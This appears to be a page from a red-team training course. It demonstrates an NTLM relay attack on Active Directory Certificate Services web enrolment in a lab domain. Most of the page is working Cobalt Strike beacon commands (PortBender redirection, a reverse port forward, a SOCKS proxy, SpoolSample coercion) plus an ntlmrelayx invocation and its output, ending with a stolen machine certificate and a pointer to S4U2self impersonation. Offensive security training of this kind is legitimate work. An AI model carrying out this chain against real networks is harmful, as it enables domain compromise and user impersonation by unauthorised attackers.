 AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at `http[s]://<hostname>/certsrv`, and by default supports **NTLM** and **Negotiate** authentication methods.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/http-gui.png)

  

In the default configuration, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controller location, relay the request to the CA and obtain a certificate for that DC, then use it to obtain a TGT.  As well as PrintSpooler, [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) contains other remote authentication methods.

Another aspect to be aware of is that you cannot relay authentication back to the original machine.  In this setup, the CA is running on DC-1, which means we cannot PrintSpooler (or other) DC-1 and relay it back to the same machine and get a certificate for DC-1.

Instead, we'll use WKSTN-3 as an example.

  

As SYSTEM on SRV-1:

-   Use PortBender to capture incoming traffic on port 445 and redirect it to port 8445.
-   Start a reverse port forward to forward traffic hitting port 8445 to the Team Server on port 445.
-   Start a SOCKS proxy for ntlmrelayx to send traffic back into the network.

  

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
                                            
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP

beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

  

Start ntlmrelayx with proxychains:

```
root@kali:~# proxychains ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

[*] Protocol Client SMTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

  

Where:

-   10.10.15.75 is DC-1.

Next, use one of the remote authentication methods to force a connection from WKSTN-3 to SRV-1.

```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.15.254 10.10.17.25

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

  

Where:

-   10.10.15.254 is WKSTN-3.
-   10.10.17.25 is SRV-1.

  

We see the connection in the Beacon running PortBender.

```
[+] received output:
New connection from 10.10.15.254:53666 to 10.10.17.25:445
Disconnect from 10.10.15.254:53666 to 10.10.17.25:445
```

  

We also see the relay magic on Kali, and eventually receive a base64 encoded ticket (output slightly trimmed for brevity).

```
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
 ...  OK
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] GOT CERTIFICATE! ID 5
[*] Base64 certificate of user WKSTN-3$:
MIIQ3Q[...snip...]NzkQ==
```

After obtaining a TGT with the certificate, the S4U2self trick can be used to obtain a TGS for any service on the machine, on behalf of any user.